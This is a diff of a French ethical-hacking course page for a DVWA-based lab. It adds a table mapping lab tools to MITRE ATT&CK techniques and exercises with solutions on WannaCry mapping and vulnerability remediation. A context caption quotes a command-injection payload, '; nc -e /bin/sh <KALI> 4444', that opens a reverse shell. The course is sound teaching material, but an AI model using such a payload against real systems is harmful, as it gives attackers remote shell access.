

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: JOUR-01-introduction-hacking-ethique-vulnerabilites.md, the part around one of its changes. Shown at 83% size. Drawn GitHub-style; folded sections open; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
+++ b/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
@@ -339,6 +325,54 @@ flowchart LR
 ```
 
 **Fig 5c** — Chaîne d'attaque Command Injection vers reverse shell : l'injection de `; nc -e /bin/sh <KALI> 4444` transforme un `ping` non sécurisé en shell distant exploitable.
+
+---
+
+## Tableau de référence : Outils et techniques des labs
+
+Ce tableau résume les **outils** et les **techniques d'attaque** utilisés dans les exercices pratiques de cette séance. Chaque lab est associé à sa tactique [MITRE ATT&CK](https://attack.mitre.org/) correspondante.
+
+| Lab | Outil principal | Vulnérabilité / Méthode | ATT&CK |
+|-----|----------------|-------------------------|--------|
+| 1.1 — Scan | nmap, gobuster, curl | Scan de ports, énumération web | [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance — [T1046](https://attack.mitre.org/techniques/T1046/) |
+| 1.2 — XSS | navigateur, curl | Cross-Site Scripting (Reflected + Stored) | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise |
+| 1.3 — SQLi | sqlmap | SQL Injection automatisée | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application |
+| 1.4 — CMDi | netcat, msfvenom, meterpreter | Command Injection → Reverse Shell | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell |
+| 1.5 — Hash | sqlmap, john | SQLi avancée + craquage de hashs | [T1190](https://attack.mitre.org/techniques/T1190/) + [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force |
+| 1.6 — Hydra | hydra, dictionnaire | Brute-force de formulaire d'authentification | [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force |
+
+---
+
+## Exercices
+
+### Exercice 1 : Couche ATT&CK Navigator
+
+**Énoncé :** Créez une couche avec [T1046](https://attack.mitre.org/techniques/T1046/), [T1189](https://attack.mitre.org/techniques/T1189/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/), [T1203](https://attack.mitre.org/techniques/T1203/). Exportez en JSON.
+
+<details><summary><strong>Solution</strong></summary>
+1. https://mitre-attack.github.io/attack-navigator/ → New Layer → Enterprise v15
+2. Ajouter les 5 techniques, colorer (rouge = testé)
+3. Download as JSON
+</details>
+
+### Exercice 2 : Mapping WannaCry
+
+**Énoncé :** WannaCry (2017) utilisait EternalBlue. Quelles techniques ATT&CK ?
+
+<details><summary><strong>Solution</strong></summary>
+- EternalBlue (CVE-2017-0144) → [T1210](https://attack.mitre.org/techniques/T1210/) ([TA0008](https://attack.mitre.org/tactics/TA0008/)), DoublePulsar → [T1543.003](https://attack.mitre.org/techniques/T1543/003/) ([TA0003](https://attack.mitre.org/tactics/TA0003/)), Chiffrement → [T1486](https://attack.mitre.org/techniques/T1486/) ([TA0014](https://attack.mitre.org/tactics/TA0014/))
+</details>
+
+### Exercice 3 : Mini-rapport DVWA
+
+**Énoncé :** Rédigez 4 fiches (une par vulnérabilité) avec type, ATT&CK, impact, remédiation.
+
+<details><summary><strong>Solution</strong></summary>
+1. XSS → [T1189](https://attack.mitre.org/techniques/T1189/) → htmlspecialchars() + CSP
+2. CSRF → [T1203](https://attack.mitre.org/techniques/T1203/) → Token anti-CSRF
+3. SQLi → [T1190](https://attack.mitre.org/techniques/T1190/) → Requêtes préparées PDO
+4. CMDi → [T1059.004](https://attack.mitre.org/techniques/T1059/004/) → escapeshellcmd()
+</details>
 
 ---
 
````
Also changed, not shown: other parts of JOUR-01-introduction-hacking-ethique-vulnerabilites.md (+0 -141 lines).
